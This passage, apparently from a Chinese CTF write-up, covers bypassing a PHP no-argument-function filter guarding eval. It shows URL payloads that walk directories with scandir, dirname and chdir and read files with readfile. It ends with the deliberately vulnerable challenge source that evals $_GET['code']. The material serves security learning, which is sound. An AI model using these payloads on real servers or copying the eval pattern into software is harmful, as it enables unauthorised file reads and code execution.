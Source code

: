 > 那么既然不在这一层目录，如何进行目录上跳呢？
> 我们用`dirname()`即可
>
> ```
> ?code=var_dump(scandir(dirname(getcwd())));
> 
> array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(14) "flag_phpbyp4ss" [3]=> string(4) "html" }
> ```
>
> 
>
> 那么怎么更改我们的当前目录呢？这里我们发现有函数可以更改当前目录
>
> ```
> chdir ( string $directory ) : bool
> ```
>
> 
>
> 将 PHP 的当前目录改为 directory。
> 所以我们这里在
>
> ```
> dirname(getcwd())
> ```
>
> 
>
> 进行如下设置即可
>
> ```
> chdir(dirname(getcwd()))
> ```
>
> 
>
> 我们尝试读取`/var/www/123`
>
> ```
> http://localhost/?code=readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
> ```
>
> 
>
> 即可进行文件读取

### 请求头绕过(PHP7.3)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
    eval($_GET['code']);
}
?>
```
